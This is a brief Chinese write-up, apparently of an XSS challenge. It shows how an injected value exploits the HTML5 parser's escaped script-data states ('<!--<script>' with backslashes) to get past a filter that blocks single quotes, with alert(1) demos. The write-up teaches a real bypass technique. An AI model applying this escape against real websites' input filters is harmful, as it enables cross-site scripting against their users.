 >todo




# xsstest7

```html
<script>
var px='';
</script>
give me xss by pass~7
<div style="display:none"></div>
<!--px-->
<script>
'px'
</script>
```

fuzz得知`'`被过滤,但`\`没有被过滤

[https://www.w3.org/TR/2010/WD-html5-20100624/tokenization.html#script-data-escaped-dash-dash-state](https://www.w3.org/TR/2010/WD-html5-20100624/tokenization.html#script-data-escaped-dash-dash-state)

脚本数据共有三种状态

1. 脚本数据转义状态
2. 脚本数据转义破折号状态
3. 脚本数据双转义状态

```html
<script>
    <!--
        alert(1)
        -->
</script>
```

![](https://img.mi3aka.eu.org/2022/09/52adf72baff04ad69d9b597bb61a6a38.png)

```html
<script>
    <!--<script \></script>

alert(1)</script>
```

![](https://img.mi3aka.eu.org/2022/09/fcb2c56880f29ef1aaa8d6098230ddac.png)

>利用脚本数据转义破折号状态进行逃逸

```html
<script>
var px='\<!--\<script \>';
</script>
give me xss by pass~7
<div style="display:none">&lt;!--&lt;script &gt;</div>
<!--px-->
<script>
'px'
</script>
```

